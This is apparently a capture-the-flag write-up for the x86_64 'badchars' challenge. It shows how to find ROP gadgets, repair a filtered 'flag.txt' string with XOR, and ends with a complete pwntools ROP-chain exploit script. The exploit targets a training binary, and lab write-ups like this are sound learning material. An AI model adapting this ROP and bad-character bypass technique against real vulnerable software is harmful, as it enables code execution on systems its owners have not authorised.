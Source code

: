 This is a Quick Writeup on **Badchars** challenge

## For x86_64 

Reversing pwnme function in libc,

![pwnme](./img/badchars/pwnme64.png)

we can clearly see that its replacing these chars ['x','a','.','g'] with *0xeb* in our payload .
if it changed our address in payload it will little hard but we will tackle it after creating first payload . now first we have to think how are we are going to make safe "flag.txt" transfer to print_file.
that function will definitely going to change our payload but we are not going to stop by that , we will some ROP gadget which will help to repair again the "flag.txt" .
Lets the hunt begin.
by viewing ROPgadgets with this command:

```shell
ROPgadget --binary ./badchars | grep "ret" |less
```

I found this gadgets:

```shell
0x00000000004004ee : ret (for movaps issue)
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x0000000000400630 : sub byte ptr [r15], r14b ; ret
0x000000000040062c : add byte ptr [r15], r14b ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a3 : pop rdi ; ret
```
that xor ,sub,add,mov gadgets are already provided in useful gadget function for this challenge. or we can also simply see that we have there pop gadgets and value write or change gadgets so they are definitly going to useful in this task.
we need **ret** for just movaps issue.
we can use xor or add or sub to change the destroyed "flag.txt" which is now **"fl\xeb\xeb\xebt\xebt"** , r14 byte will change r15 particular byte depends on what location we give.
I am going to use Xor for this.

```python
>>>print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'
```
We need a location to store our flag.txt .quick vmmap view:

![vmmap](./img/badchars/vmmap64.png)

I have chosen writing to place 0x601070.
now we have all things ready lets build the rop chain.
ropchain = 'a'*40 (usual from prev chals)
ropchain +=  ret (I am not going explain this)
ropchain +=  popr12,r13,r14,r15 (this will set reg's for our upcoming 2 gadgets mov & xor)
ropchain += 'flag.txt',0x601070(our qute location),\x8a,0x601070+2(location of "a" in flag.txt)
after that we similarly xor other bytes also , then push our location to rdi as print file needs it before calling fopen (see fucking function)
then vala call the printfile.

Here's the Exploit:
```python
# 0x00000000004004ee : ret (for movaps issue)
# 0x0000000000400628 : xor byte ptr [r15], r14b ; ret
# 0x0000000000400630 : sub byte ptr [r15], r14b ; ret
# 0x000000000040062c : add byte ptr [r15], r14b ; ret
# 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
# 0x00000000004006a0 : pop r14 ; pop r15 ; ret
# 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004006a3 : pop rdi ; ret
# bad chars x a . t

writto =0x601070
ret = p64(0x4004ee)
xory = p64(0x400628)
suby = p64(0x400630)
addy = p64(0x40062c)
mov = p64(0x400634)
r14r15 = p64(0x4006a0)
r12345 = p64(0x40069c)
rdi = p64(0x4006a3)
printf = p64(0x000400510)

badc = ['x','a','.','g']
for i in badc:
    print(f"{hex(ord(i))=}")
    
# >>> print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
# b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'

payload = flat(
    b"n"*40,
    ret,
    r12345,
    b'flag.txt',
    p64(writto),
    p64(0x8a),
    p64(writto+2),
    mov,
    xory,
    r14r15,
    p64(0x8c),
    p64(writto+3),
    xory,
    r14r15,
    p64(0xc5),
    p64(writto+4),
    xory,
    r14r15,
    p64(0x93),
    p64(writto+6),
    xory,
    rdi,
    p64(writto),
    printf,
)
io.sendline(payload)
```

Valar Murgolis!!